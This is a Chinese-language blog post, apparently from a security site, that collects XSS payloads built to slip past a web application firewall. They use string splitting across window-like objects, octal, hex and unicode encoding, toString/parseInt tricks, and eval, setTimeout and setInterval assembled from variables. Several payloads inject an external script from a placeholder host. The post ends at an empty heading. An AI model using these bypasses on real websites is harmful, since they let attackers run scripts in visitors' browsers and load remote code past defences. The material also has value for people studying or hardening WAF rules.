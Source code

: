 ## 前言
- - -
对于我这个菜鸟来说，我通过谷歌百度学习到很多前辈的资料，甚至每句话都是他的指导，我也很感激前辈的为我们铺设的道路，让我们更快的成长起来。我也乐于分享，可能有些知识点过于单调或者久远，请见谅。

## waf
- - -
前几天花了10买了一个月的服务器，换个waf来测试。
![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xeuqs6nwj30g60cgdge.jpg)   

### Test

遗漏标签就不测试了，上一篇[水文](https://www.anquanke.com/post/id/176185)的分享的标签也可以过，不信找几个试试= =

好吧非常打脸，拦截了。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf5z6pwcj30uj0590t6.jpg)

然而换个prompt()函数???免费版当然是这样的啦，高级服务不仅我买不起，还绕不过啊，而且我不是真正的站长，规则我也不会设啊，总之就是这也不会那也不会。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf9uioa9j30uj094wf8.jpg)

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xff076fvj30c80c874l.jpg)

### Top属性类似的补充
- - -
还记得上篇的top属性嘛

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xfxfayjoj30kg04ot8n.jpg)

实际上可以利用的还有好几个，看到这里各位是否get到什么了。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xju6slwuj30ub06raac.jpg)

我们可以利用的类似拼接的对象又多了几个，例如：
```html
//一家人就是要整整齐齐
<details open ontoggle=top['al'%2B'ert'](1) >
<details open ontoggle=self['al'%2B'ert'](1) >
<details open ontoggle=parent['al'%2B'ert'](1) >
<details open ontoggle=frames['al'%2B'ert'](1) >
<details open ontoggle=content['al'%2B'ert'](1) >
<details open ontoggle=window['al'%2B'ert'](1) >
```
这些都可以绕过waf，总结起来有 `top` `self` `parent` `frames` `content` `window`，无疑`top`是最短的，所谓短小精悍，这里借用PKAV的一张ppt。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xkryc227j30fp073782.jpg)

### 其他补充
除了拆分构造，我们必须要了解还有编码，这个确实是老生常谈的话题，先看个例子吧

将e字母url编码，成功弹窗也绕过waf。
`<details open ontoggle=top['al%65rt'](1) >`
![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xte6v6ioj30uj07bwf4.jpg)

其他编码
```html
JS8编码：
<details open ontoggle=top['al\145rt'](1) >
<details open ontoggle=top['\141\154\145\162\164'](1) >
JS16编码：
<details open ontoggle=top['al\x65rt'](1) >
其他
<details open ontoggle=top[/al/.source%2B/ert/.source](1) >
```
### parseInt()与toString()
- - -
**parseInt()**

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw3xjyifj30nj0b1dga.jpg)

例子: `alert`字符串用`parseInt函数`，以基数为30转化后为`8680439`


![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw6xbo82j30ff05tq2z.jpg)

**toString()**


![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwe1vapzj30g809z0sx.jpg)

例子: `toString函数`将返回的数字`8680439`,以基数为30还原

![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwgo4zb3j30fl083wen.jpg)

这样你就能理解下面这个例子了。
```html
<details open ontoggle=top[8680439..toString(30)](1); >
<details open ontoggle=top[11189117..toString(32)](1); >
```
![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwsdzqctj30uj0930tj.jpg)

### 俩个例子
- - -
**例1**
```html
<img src=1 alt=al lang=ert onerror=top[alt%2blang](0)>
```
这个例子很巧妙，将`alt`和`lang`属性分别赋值合并起来就是`alert`，并在top属性内将2个属性相加。


**例2**
```html
 <details open ontoggle=top[a='al',b='ev',b%2ba]('alert(1)')>
```
在top属性内添加2个变量，并赋值构造eval，然后执行alert(1)

测试下，拦截了。
![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xodipv2ej30uj05hmxm.jpg)

其实waf，拦截的是alert这个关键字，换个`prompt()`函数就过了

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xoh9uty6j30uj086q3n.jpg)

也可以选择将`alert(1)`编码，因为有eval存在啊，直接拿来用

```html
<details open ontoggle=top[a='al',b='ev',b%2ba](atob('YWxlcnQoMSk='))>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\141\154\145\162\164\50\61\51')>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')>
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xom9zf77j30uj097mxz.jpg)

setTimeout()函数也是没问题的，毕竟也能执行代码。 
```html
<details open ontoggle=top[a='meout',b='setTi',b%2ba]('\141\154\145\162\164\50\61\51')>
```

## eval函数的补充
- - -
#### setTimeout

![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ycyd6jedj30no0adt90.jpg)

waf拦截
```html
<svg/onload=setTimeout`alert(1)`>
```
![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy2v7lvnj30uj05d74p.jpg)

编码下，就绕过了。
```html
<svg/onload=setTimeout`alert\u0028233\u0029`>
```
![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy76ggesj30uj0813z5.jpg)

#### setInterval

与`setInterval`不同，对于`setTimeout()`只执行code一次。

![20](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yczzsa24j30no0exwf8.jpg)

`<svg/onload=setInterval('al'%2b'ert(1)')>`

![21](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd573lavj30uj09qwf9.jpg)

绕过waf，引用外部js。
```html
<svg/onload=setInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
```
![22](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd9dqh46j30uj0e4q4j.jpg)

#### 其他
```html
拆分与编码
<svg/onload=\u0073etInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('sc\162ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(\u0061ppendChild(\u0063reateElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
 
结合函数：
<iframe onload=s=createElement('script');body.appendChild(s);s.src=['http','://','xx.xx','/eeW'].join('') >
<svg/onload=s=createElement('script');body.appendChild(s);s.src=['http']%2B['://']%2B['xx.xx']%2B['/eeW'].join('') >
<svg/onload=s=\u0063reateElement('scr'%2b'ipt');\u0062ody.\u0061ppendChild(s);s.src='http://x'.concat('x.xx/','eeW'); >
```

### 扩展
- - -

关于运用基于DOM的方法创建和插入节点把外部JS文件注入到网页，这种方法在<<XSS跨站脚本gj剖析与防御>>有介绍过。我这里简单演示下，如果你了解或者不感兴趣可以跳过这段。

首先用createElement方法创建一个script标签。

![23](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydpwjmafj30fh07jt8s.jpg)

接下来给<script>的src属性设置成外部url
 
![24](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydrl28mhj30fe0b1jrn.jpg)

可以看到<script>标签以及src属性已经被创建出来，但是并不在页面上输出啊。
 
![25](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf3ujkccj30fe0a174d.jpg)

我们就要用到appendChild()方法将变量s插入页面。

![26](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf6k40vgj30fg08gt93.jpg)

再来看看页面上

![27](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf7nce1dj30fe0620ss.jpg)

### constructor属性




